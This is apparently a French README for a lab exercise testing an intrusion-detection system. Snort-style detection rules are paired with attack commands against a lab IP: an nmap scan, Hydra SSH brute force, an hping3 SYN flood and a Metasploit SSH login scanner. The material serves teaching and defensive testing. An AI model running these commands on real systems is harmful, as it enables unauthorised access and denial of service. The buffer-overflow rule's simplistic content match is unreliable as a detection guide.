





# Défense

## Règle 1 : Détection de scans de ports 
```bash
alert tcp any any -> any any (msg:"ALERT: Port scan detected"; flags:S; detection_filter:track by_src, count 10, seconds 60; sid:1000002; rev:1;)
```

## Règle 2 : Détection de bruteforce SSH
```bash
alert tcp any any -> any 22 (msg:"ALERT: Possible SSH brute force"; flow:to_server,established; flags:S; sid:1000003; rev:1;)
```

## Règle 3 : Détection de DoS
```bash
alert tcp any any -> any any (msg:"ALERT: Possible SYN Flood DDoS Attack"; flags:S; detection_filter:track by_src, count 100, seconds 10; sid:1000004; rev:1;)
```

## Règle 4 : Détection d'exploitation de vulnérabilité via Metasploit
```bash
alert tcp any any -> any 80 (msg:"ALERT: Possible Buffer Overflow Attempt"; flow:to_server,established; content:"A"; sid:1000005; rev:2;)
```

<p align="center">
    
</p>

# Attaque

## Scan de ports avec Nmap 
```bash
nmap -sS 10.0.0.108
```
<p align="center">
    
</p>

## Attaque bruteforce SSH avec Hydra 
```bash
hydra -l user -P passwords.txt -t 4 -vV ssh://10.0.0.108
```
<p align="center">
    
</p>

## Attaque DDoS avec Hping
```bash
hping3 -S --flood -p 22 10.0.0.108
```
<p align="center">
    
</p>

## Attaque avec Metasploit 
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.0.0.108
set USERNAME user
set PASS_FILE passwords.txt
run
```
<p align="center">
    
</p>